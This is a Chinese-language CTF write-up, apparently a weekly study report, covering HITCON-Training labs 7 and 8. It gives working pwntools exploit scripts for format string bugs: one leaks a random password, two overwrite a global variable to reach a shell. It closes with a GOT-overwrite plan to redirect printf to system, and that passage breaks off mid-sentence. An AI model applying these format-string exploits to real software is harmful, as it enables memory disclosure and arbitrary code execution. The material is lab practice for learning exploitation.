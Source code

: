 # week2
## hitcon-training -- lab7(crack)
密码是随机生成的 存在格式化字符串漏洞

<img width="264" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/076b02b9-cc70-4179-80f0-a5335602685f">


可以利用格式化字符串读获取password
### exp_crack.py
```python
from pwn import *
p = process("./crack")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

password_addr = 0x804a048

payload = p32(password_addr) + b'#%10$s'
ru('name ? ')
sl(payload)

ru('#')
password = u32(rx(4))
log.info("password ==> {}".format(hex(password)))

ru('password :')
sl(str(password))

shell()
```

## hitcon-training -- lab8(craxme)
存在格式化字符串漏洞 

<img width="306" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/0c88b93b-709f-49dc-a22f-0b5c98d00d13">

可以用格式化字符串写漏洞复写全局变量magic
前两个复写的方式相同
### exp_craxme1.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

magic_addr = 0x804a038
magic_data = 0xDA 

payload = fmtstr_payload(7, {magic_addr:magic_data}, write_size="byte")
ru("magic :")
sl(payload)

shell()

#raw_input("Ther")
```

### exp_craxme2.py
```python
from pwn import *
p = process("./craxme")
# p = remote("ip",port)
context.log_level = 'debug'
# context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

magic_addr = 0x804a038
magic_data = 0xFACEB00C

payload = p32(magic_addr) + p32(magic_addr+2)
payload+= b"%45060c%7$hn%19138c%8$hn"

raw_input("Ther")
ru("magic :")
sl(payload)

shell()
```

具体说一下getshell的方法
程序中有system函数 所以我们是可以通过覆盖某个函数的got表为system来getshell的
但只有一次格式化字符串的机会 在格式化字符串函数之后 可能执行的分支为system和puts函数

<img width="318" alt="image" src="https://github.com/keepinggg/Weekly_Report/assets/62430054/30fe380e-80cf-4db0-b51b-901a4d9bfdd8">

但调用这两个函数的参数不可控，所以需要复写其他函数的got表 最后发现只有printf函数的参数可控
那么我们可以将puts的got表覆盖为main函数调用read的地址
同时将printf的got表覆盖为system
这样在程序继续执行时就会调用



